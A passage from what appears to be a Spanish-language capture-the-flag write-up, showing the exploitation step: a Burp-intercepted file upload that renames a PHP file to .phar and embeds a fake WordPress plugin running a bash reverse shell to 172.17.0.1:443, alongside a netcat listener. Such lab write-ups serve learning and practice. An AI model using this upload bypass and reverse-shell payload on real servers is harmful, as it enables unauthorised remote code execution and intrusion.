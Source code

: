 Lo metemos también.

# EXPLOTACION

Con **burpsuite** interceptamos el envío de un php nuestro y le cambiamos la extensión a phar: 

   ```bash

POST / HTTP/1.1
Host: admin.crosswords.5eek3r.dl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------85739557222247238831808751400
Content-Length: 476
Origin: http://admin.crosswords.5eek3r.dl
Connection: keep-alive
Referer: http://admin.crosswords.5eek3r.dl/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------85739557222247238831808751400
Content-Disposition: form-data; name="upload"; filename="wp.phar"
Content-Type: application/x-php

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

-----------------------------85739557222247238831808751400--



```

Mientras nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**)

